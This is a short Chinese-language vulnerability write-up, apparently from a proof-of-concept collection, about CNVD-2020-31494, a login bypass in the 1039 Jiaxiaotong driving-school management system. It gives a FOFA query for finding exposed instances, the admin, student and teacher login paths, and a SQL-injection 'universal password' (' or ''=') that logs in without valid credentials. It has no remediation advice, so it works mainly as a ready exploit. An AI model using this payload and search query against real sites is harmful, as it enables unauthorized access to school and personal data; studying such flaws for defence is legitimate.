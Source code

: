 # 1039家校通-万能密码绕过-CNVD-2020-31494

## 漏洞描述

北京1039科技发展有限公司是一家专注驾校管理系统、驾校移动办公系统、驾校管理软件、驾校招生小程序开发等,为驾校提供无死角的驾校管理系统解决方案。

北京1039科技发展有限公司驾校管理系统存在万能密码绕过漏洞，攻击者可利用该漏洞获取数据库信息。

## 漏洞影响

> [!NOTE]
>
> 1039家校通 v1.0 - v6.0

## FOFA

> [!NOTE]
>
> title="学员登录_1039家校通"

## 漏洞复现

管理员登录接口为

```
/admin/Product/Comstye.aspx
/Student/StudentLogin.aspx
/Teacher/Index.aspx
```

![](1039家校通-万能密码绕过-CNVD-2020-31494.assets/1627363099923823.jpg)

账号密码为如下即可登录

```
user:peiqi
pass:' or ''='
```

![](1039家校通-万能密码绕过-CNVD-2020-31494.assets/1627363100099909.jpg)



